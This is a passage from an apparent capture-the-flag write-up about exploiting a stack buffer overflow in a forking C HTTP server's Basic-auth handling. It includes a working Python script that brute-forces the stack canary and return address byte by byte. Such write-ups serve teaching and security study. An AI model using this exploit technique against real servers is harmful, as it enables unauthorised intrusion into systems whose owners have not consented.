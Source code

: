 ```c
		/* ??? */
		snprintf(msg, sizeof(msg), "UNKNOWN %d", status);
		prio = LOG_CRIT;
	}

	/* Send the actual message to the logger */
	syslog(prio, msg, 0);
}
```

The goal after the reverse engineering part is clear: Use the buffer overflow to take control of a child, and find a way to get over the seccomp in order to call a shell.

### Exploitation

The binary is protected by a stack canary, it's also PIE'd.
That means that our buffer overflow won't result in anything if we can't find a way to leak a .text address, and to leak the canary.

However, we are lucky. Our requests are fork'd, and fork doesn't create a new process with a whole new memory layout. It copies the parent memory, and then spawn a new process. What that means is that every forks will have the same canary, and the same .text base.

If we can find something to display in case the return goes well, and something to display in case the return goes wrong, we will be able to bruteforce byte by byte the canary and the return address, giving us both the leaks we need.

If we check at the calling function, worker, we can see that it prints something if our username and password are both rights:
```c
	if(!checkAuth(b64, shared))
		return false;

	/* All that fuss for what ? */
	http_text(HTTP_STATUS_OK, "Congratulations! Now get the flag.");
```

So we have our victory print, if the return of checkAuth goes right, with a good username and password, we will have a print.

We just have to code something that bruteforces the necessary bytes:

```python
baseSize = (280-12-16)
def genPayload(payload):
    base = b"admin:admin\x00" + b"a" * baseSize
    return b"""GET / HTTP/1.1\r
    Connection: keep-alive\r
    Authorization: Basic """ + base64.b64encode(base + payload) +b"\r\n\r\n"


def leak64(prefix = b""):
    cookie = [0] * 8
    for i in range(8):
        for x in range(0, 256):
            cookie[i] = p8(x)
            cur = b"".join(cookie[:i+1])
            print(cur)
            io.send(genPayload(prefix + cur))

            r = io.recvuntil(b"\r\n\r\n", timeout=0.18) # if we received a HTTP request-like answer, it means it's the right byte
            if r != b"":
                c = io.recvuntil(b"flag.", timeout=0.18)
                if c == b"":
                    continue
                break
```